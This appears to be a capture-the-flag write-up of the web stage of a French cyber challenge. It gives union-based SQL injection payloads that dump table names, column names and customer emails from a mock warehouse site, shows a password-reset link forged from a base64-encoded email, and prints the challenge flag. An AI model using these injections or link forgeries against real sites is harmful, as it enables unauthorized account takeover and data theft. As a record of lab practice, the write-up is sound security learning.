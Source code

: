 # Web

## Stockos

Our first goal, given by Jérémy Nitel, was to search for creditentials in a broken warehouse's website named Stockos. The messages also indicates that Stockos has its admin password leaked multiple times and that it was a simple one.

When landing on the provided link (https://challengecybersec.fr/4e9033c6eacf38dc2a5df7a14526bec1/), we stumble upon a login page. Remembering the easy password, we tried `admin` as login and password. Bingo! It was right, we are now logged on as the admin. We cannot do much except change some personal infos about the admin and list the orders from the warehouse. Interestingly, there is a search function, this got us and idea to try for an SQL injection.

And so we did, by trying different character sets, we found out that `' AND 1=1 -- '` works. We then supposed that the request was written like this:
```sql
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='<our input text>%' ORDER BY section ASC
-- With our input text:
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 1=1 -- '%' ORDER BY section ASC;
```
Now, with a door to enter, we can use the keyword `UNION` to append new information on the tables. One very interesting table name to look for is `information_schema.tables`. This is a table that lists all tables.
```sql
-- <' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables -- '%' ORDER BY section ASC
```
With every tables listed, we can check the `customer` table. We still need the column names and the table `information_schema.columns` can help us.
```sql
-- <' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' -- '%' ORDER BY section ASC
```
The request above will print the name of every column of `customer`. `name` and `email` are very useful.
```sql
-- <' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '>
SELECT ?, ?, ?, ?, ? FROM ? WHERE ?='' AND 0=1 UNION SELECT name, email, 3, 4, 5 FROM customer -- '%' ORDER BY section ASC
```
This last SQL request will print the list of each customer's name and email. And there lays the email we are looking for: `agent.malice@secret.evil.gov.ev`. We can now go try the rest of the challenge.

*__Note__: The end of the SQL request can be leaked by creating a malformed request like `'`. You can also find that this is a MySQL server. The numbers `1` to `5` in SQL requests are special name for dummy columns.*

## Evil Air

This plane ticket bookmarking website were also given by Mr. Nitel (https://www.challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/). We had to book a plane ticket from `Bad City` to `Evil City` at thoses dates `26/10/2020` -> ` 28/10/2020` (French Date Format).

When we tried to book the ticket, it asked us to login / register on the site. If you register with a standard mail / username email, you will be denied from accessing the order page, and accessing the QR Code that contain the flag to going further.

You the get an activation link: `http://challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/activate/ZXhhbXBsZS5leGFtcGxlQHRlc3QuY29t

Then we looked at the reset password form, and the link were the same with the sole variation: instead of `activate` you have `reset`. We digged more the link and discovered that the last part of the link was a base64 hash of the account email address (this link is the hash of `example.example@test.com`). We replaced the fake account with the base64 hash of the email we were looking for on stockos (http://challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/reset/YWdlbnQubWFsaWNlQHNlY3JldC5ldmlsLmdvdi5ldg==), then it displayed the password, and allowed us to order the ticket. It then shows the QR code containing the flag `DGSESIEE{2cd992f9b2319860ce3a35db6673a9b8}`.

<p align="center">
    <img width=25% src="./flag.png" alt="Rank: 153 - Team: Sagliss - Last Validation: 08/11 - Points: 450">
</p>

When provinding the flag, Nitel responded with a `.pcap` file.
